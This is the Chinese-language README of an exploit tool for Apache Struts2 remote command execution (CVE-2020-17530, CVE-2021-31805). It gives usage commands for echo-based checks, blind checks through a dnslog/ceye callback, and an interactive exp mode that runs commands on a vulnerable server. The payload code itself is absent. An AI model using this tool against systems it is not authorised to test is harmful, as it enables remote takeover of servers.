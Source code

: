 # CVE-2021-31805

# 1.简介

Struts2 远程命令执行漏洞（CVE-2020-17530&CVE-2021-31805）POC&amp;EXP

# 2.用法

+ 参数介绍
```
-u 目标url
-m [dnslog|exp] //默认有回显界面字符检查
-n [s2-062] //默认s2-061
-s [windows] //默认linux
-p 漏洞参数
```

+ 有回显检测
```
Struts2RCE -u http://127.0.0.1:8080 //默认s2-061检测
```
![image](https://user-images.githubusercontent.com/108780847/180611148-c10e9c1d-77ec-451b-959e-9d55561b46f4.png)

+ 无回显检测
```
请自行注册ceye，并配置好ceye.ini
Struts2RCE -u http://127.0.0.1:8080 -m dnslog -n s2-062 //s2-062 dnslog检测,检测速度跟网络和ceye服务器有关，不同url需要清除dnslog记录，否则会造成误判。
```
![image](https://user-images.githubusercontent.com/108780847/178152997-0aae3127-7249-46f8-ae09-b05d8384d52e.png)
![image](https://user-images.githubusercontent.com/108780847/180611370-e16bc8a0-410a-45f6-ab69-eb38102968da.png)

+ EXP

```
存在漏洞情况下，可直接输入漏洞参数进行验证
Struts2RCE -u http://127.0.0.1:8080 -m exp -p id //s2-061漏洞，参数为id的验证，输入q退出
```
![image](https://user-images.githubusercontent.com/108780847/180611459-d6d18230-4bb3-442a-a1d0-6385b55c4539.png)

# 3.免责声明

此工具仅用于学习、研究和自查。
不应用于非法目的，请遵守相关法律法规。
使用本工具产生的任何风险与本人无关！
